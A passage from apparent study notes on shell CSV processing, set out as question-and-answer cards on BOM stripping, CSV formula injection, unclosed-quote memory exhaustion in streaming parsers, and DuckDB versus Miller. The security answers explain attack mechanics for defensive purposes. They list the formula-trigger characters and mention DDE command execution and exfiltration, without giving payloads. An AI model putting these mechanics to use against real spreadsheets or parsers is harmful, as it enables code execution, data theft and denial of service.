> > The database loader treats the BOM as literal character data attached to the first field name of the header line.
> > The first solution strips the 3 bytes using sed: `sed '1s/^\xef\xbb\xbf//' input.csv > clean.csv`.
> > The second solution strips the BOM portably using POSIX awk with octal escapes and a byte locale: `LC_ALL=C awk 'NR==1{sub(/^\357\273\277/,"")}1' input.csv > clean.csv`.
> > Without `LC_ALL=C`, One True Awk 20250116 in a UTF-8 locale leaves the BOM in place (measured), and `\x` escapes are an extension POSIX awk does not define.
> >
> > Follow-up: Why does `grep '^user_id'` fail on this file even when visual inspection in `cat` shows `user_id` at the start of the line?

> [!question] L6: Explain the attack mechanics of CSV Formula Injection (CWE-1236) and specify the exact transformation an export pipeline must perform on untrusted strings.
>
> > [!success]- Answer
> > Spreadsheet software treats cells beginning with `=`, `+`, `-`, `@`, tab (`0x09`), carriage return (`0x0D`), or newline (`0x0A`) as executable formula expressions.
> > Attackers exploit this behavior to execute arbitrary commands via Dynamic Data Exchange (DDE) or exfiltrate workbook contents via web-query functions.
> > The export pipeline must inspect the first character of every untrusted string field.
> > If the first character matches any formula-triggering character, the pipeline must prepend a single quote (`'`) to force the spreadsheet to interpret the cell as plain text.
> > Finally, the cell must be encapsulated in RFC 4180 double quotes with internal quotes escaped as `""`.
> >
> > Follow-up: Why is wrapping the cell in standard double quotes without the leading single quote insufficient to prevent Excel formula execution?

> [!question] L7: If a high-throughput streaming consumer processes multi-gigabyte CSV feeds over HTTP pipes and an adversary sends an unclosed double quote on line 5, what is the failure mode and how do you design a memory-bounded streaming architecture to mitigate it?
>
> > [!success]- Answer
> > A naive RFC 4180 parser entering the quoted state on line 5 buffers all subsequent input into memory, waiting for the closing quote.
> > As gigabytes of streaming data arrive without a quote, the internal field buffer expands until the process crashes via Linux OOM killer or reaches heap exhaustion, causing a denial of service.
> > To mitigate this, the parser must enforce a strict bound on maximum single-field byte accumulation (such as 1 MiB or 64 KiB).
> > If the field buffer exceeds the threshold while remaining in the quoted state, the parser must abort the record, emit a structured parsing error event, and enter a recovery resynchronization state.
> > Resynchronization scans ahead for an unambiguous record boundary or discards the stream, preventing unbounded memory bloat.
> >
> > Follow-up: How do you handle schema recovery when a corrupt multi-line record desynchronizes row parsing in distributed batch frameworks like Apache Spark?

> [!question] L7: Compare the operational trade-offs of using DuckDB from the shell versus Miller (`mlr`) for processing high-volume CSV data in automated CI/CD and deployment pipelines.
>
> > [!success]- Answer
> > DuckDB provides an enterprise SQL query engine with vectorized C++ execution, automatic type inference, multi-threaded columnar processing, and direct output to Parquet or JSON.
> > Its trade-off is binary size (the duckdb 2.0.1 CLI for macOS arm64 is 59,709,960 bytes, about 60 MB, measured 2026-11) and memory allocation overhead designed for analytical query workloads.
> > Miller (`mlr`) is a lighter streaming processor (a single Go binary; the `mlr` executable in the Miller 6.23.0 macOS arm64 release archive is 17,063,490 bytes, about 17 MB, measured 2026-11 from the archive listing without running it) designed specifically for Unix pipeline composability, operating record-by-record with minimal memory footprint.
> > Miller excels at streaming transformations on infinite or memory-constrained pipes where complex joins or aggregations are unnecessary.
> > DuckDB is the superior choice when pipelines require schema validation, complex joins against other tables, window functions, or format translation into Parquet.
> >
> > Follow-up: Under what specific conditions would SQLite's `.mode csv` be preferred over DuckDB in a constrained edge environment?

## Related

Prerequisites: [[XML-with-xmlstarlet]]

Next: [[Miller]]

See also: [[When-to-Stop-Using-Text-Tools]], [[sqlite3-from-the-Shell]], [[DuckDB-from-the-Shell]], [[xsv-and-qsv]], [[Field-Splitting-and-IFS]]

API Engineering goes deeper in [[20-API-Engineering/README|API Engineering]]: [[20-API-Engineering/01-HTTP-Semantics-and-Wire-Protocols/README|HTTP Semantics and Wire Protocols]], [[20-API-Engineering/05-Pagination-Filtering-and-Query-Patterns/README|Pagination Filtering and Query Patterns]]; start with [[Content-Negotiation-Media-Types-and-Charsets]].

## Further reading

- [RFC 4180: Common Format and MIME Type for Comma-Separated Values (CSV) Files](https://www.rfc-editor.org/rfc/rfc4180.txt): The foundational IETF specification establishing the formal ABNF grammar and seven quoting rules for CSV.
- [RFC 7111: URI Fragment Identifiers for the text/csv Media Type](https://www.rfc-editor.org/rfc/rfc7111.txt): Formal extension defining cell, row, and column fragment selectors over RFC 4180 entities.
- [POSIX.1-2024 Base Definitions Chapter 3: Definitions](https://pubs.opengroup.org/onlinepubs/9799919799/basedefs/V1_chap03.html): Primary source definitions for Line (3.185) and Text File (3.387) documenting POSIX utility assumptions.
- [POSIX.1-2024 Shell and Utilities: cut Utility](https://pubs.opengroup.org/onlinepubs/9799919799/utilities/cut.html): Specification detailing field delimiter processing and pass-through behavior on un-delimited lines.
- [POSIX.1-2024 Shell and Utilities: awk Utility](https://pubs.opengroup.org/onlinepubs/9799919799/utilities/awk.html): Specification detailing record (`RS`) and field (`FS`) splitting semantics.
- [GNU Awk 5.3 User's Guide: Comma Separated Fields](https://www.gnu.org/software/gawk/manual/html_node/Comma_002dSeparated-Fields.html): Primary documentation detailing the design and operation of native `--csv` parsing in gawk.
- [OWASP Foundation: CSV Injection](https://owasp.org/www-community/attacks/CSV_Injection): Vulnerability analysis and mitigation guide for formula execution in spreadsheet software.
- [MITRE CWE-1236: Improper Neutralization of Formula Elements in a CSV File](https://cwe.mitre.org/data/definitions/1236.html): Common Weakness Enumeration classification detailing spreadsheet formula attack vectors.
- [NVD CVE-2014-3524 Detail](https://nvd.nist.gov/vuln/detail/CVE-2014-3524): Vulnerability record for remote command execution via a crafted Calc spreadsheet in Apache OpenOffice before 4.1.1 (the LibreOffice advisory covers the same CVE).
